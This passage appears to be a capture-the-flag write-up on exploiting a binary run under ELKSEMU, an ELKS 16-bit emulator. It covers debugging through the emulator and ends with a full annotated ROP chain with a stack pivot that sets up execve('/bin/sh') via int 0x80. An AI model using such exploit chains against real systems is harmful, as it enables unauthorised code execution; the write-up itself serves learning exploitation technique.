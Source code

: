 ### ELKSEMU

Well, without going too deep, this is a simple "emulator" for ELKS binaries. It doesn't actually "emulate" them since it just creates 16-bit entries and maps the syscall to linux syscalls. If you're interested I suggest reading `elksemu/elks.c` and [LDT @ OSDev.org](https://wiki.osdev.org/Local_Descriptor_Table)

By compiling it with debug options (`-DDEBUG -g -O0`) we can:

-   debug the binary by debugging the emulator (and have the source code available since it's compiled with -g)
-   have access to a kind-of strace saved in `/tmp/ELKS_log`, allowing us to see syscalls and their parameters

### Debugging?
Well as I mentioned we can debug the binary by debugging the emulator. For example if we attach during the emulated `read`, we can look at the `$rsi` register to figure out where our ELKS stack is stored. With the help of the source code, we know that both the stack and the binary are stored in a 0x30000 RWX region allocated randomly in the lower 32 bits of the memory space. By doing what I described and cross-referencing it with `/tmp/ELKS_log` I was able to conclude that the `read` buffer is stored at `ss:0x2c3c` and the `.text` starts at 
`cs:0x0000`

### Exploitation
Knowing this, we can write our exploit. I chose to use Return Oriented Programming even though the memory was mapped as RWX since:

-   the LDT descriptors are set properly as read-execute (for cs) and read-write (for ds/ss) so I wasn't really sure the rwx mapping would still hold
-   even then, in the 0x30000 mapping the stack and the code addresses are separated by at least 0x20000 bytes, making it impossible to return to stack shellcode without changing the descriptors
-   even if they were closer, the LDT entries have their limit field set properly

I came up with an 18-bytes chain, 2 bytes too much for our overflow so I had to stack pivot.
The payload is as follows
```c
    Payload start -> 0x2c3c: b"/bin/sh\x00"
    Pivot target  -> 0x2c44: 0x0        // bp = 0
                     0x2c46: 0x0        // di = 0
                     0x2c48: 0x0        // si = 0
    Second stage  -> 0x2c4a: 0x9f       // mov bx, sp; mov dx, [bx + 6]; mov cx, [bx + 4];
    (setup params)                      // mov bx, [bx + 2]; int 0x80;
                     0x2c4c: 0x0        // pad
                     0x2c4e: 0x2c3c     // bx = addr of /bin/sh\x00
                     0x2c50: 0x0        // cx = 0
                     0x2c52: 0x0        // dx = 0
                     0x2c54: 0x0        // pad
                     0x2c56: 0x0        // pad
                     0x2c58: 0x0        // pad
                     0x2c5a: 0x0        // pad
                     0x2c5c: 0x0        // pad
                     0x2c5e: 0x0        // pad
                     0x2c60: 0x0        // pad
                     0x2c62: 0x0        // pad
                     0x2c64: 0x2c44     // saved bp (our pivot target)
    First stage ->   0x2c66: 0x4b6      // pop di, si; ret
    (setup ax &      0x2c68: 0xb        // di = sys_execve (11)
     pivot)          0x2c6a: 0x0        // si = 0
                     0x2c6c: 0x2a9      // xchg ax, di; mov sp, bp; pop bp, di, si; ret;
```
